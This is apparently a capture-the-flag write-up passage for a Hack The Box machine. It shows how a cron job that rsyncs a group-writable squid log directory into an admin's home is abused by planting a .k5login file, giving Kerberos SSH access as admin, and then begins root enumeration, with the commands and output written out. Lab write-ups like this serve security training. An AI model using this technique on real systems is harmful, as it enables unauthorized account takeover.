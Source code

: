 ```
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
* * * * * admin /usr/local/bin/log_backup.sh
```

- Content of the script
```
[j.nakazawa@srv01 tmp]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/                                                                                                                                                           
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

- Let's check permissions
  - We can write to `/var/log/squid/`
```
[j.nakazawa@srv01 tmp]$ ls -ld /var/log/squid/
drwx-wx---. 2 admin squid 41 Dec 24  2020 /var/log/squid/
```
```
[j.nakazawa@srv01 tmp]$ groups
j.nakazawa squid users
```

- We can create a [.k5login](https://www.unix.com/man-page/linux/5/k5login/) file
  - `The  .k5login  file, which resides in a user's home directory, contains a list of the Kerberos principals.  Anyone with valid tickets for a
       principal in the file is allowed host access with the UID of the user in whose home directory the file resides.  One common use is to place
       a .k5login file in root's home directory, thereby granting system administrators remote root access to the host via Kerberos.`
  - The script copies all files from `/var/log/squid/` to `/home/admin` and only deletes `access.log`, `cache.log` files
  - We can `ssh` as `admin`
```
[j.nakazawa@srv01 tmp]$ cd /var/log/squid/
[j.nakazawa@srv01 squid]$ echo "j.nakazawa@REALCORP.HTB" > .k5login
```

- And we can `ssh` as `admin`
```
└─$ ssh admin@10.10.10.224     
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Sat Sep 30 19:39:01 2023
[admin@srv01 ~]$ 
```
## Root
- Enumerate 
```
[admin@srv01 home]$ find / -user admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/home/admin/squid_logs.tar.gz.2023-09-30-194001
/var/spool/mail/admin
[admin@srv01 home]$ ls -lha /var/spool/mail/admin
-rw-rw----. 1 admin mail 0 Dec  9  2020 /var/spool/mail/admin
[admin@srv01 home]$ find / -group admin -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
/home/admin/squid_logs.tar.gz.2023-09-30-194001
/home/admin/squid_logs.tar.gz.2023-09-30-194101
```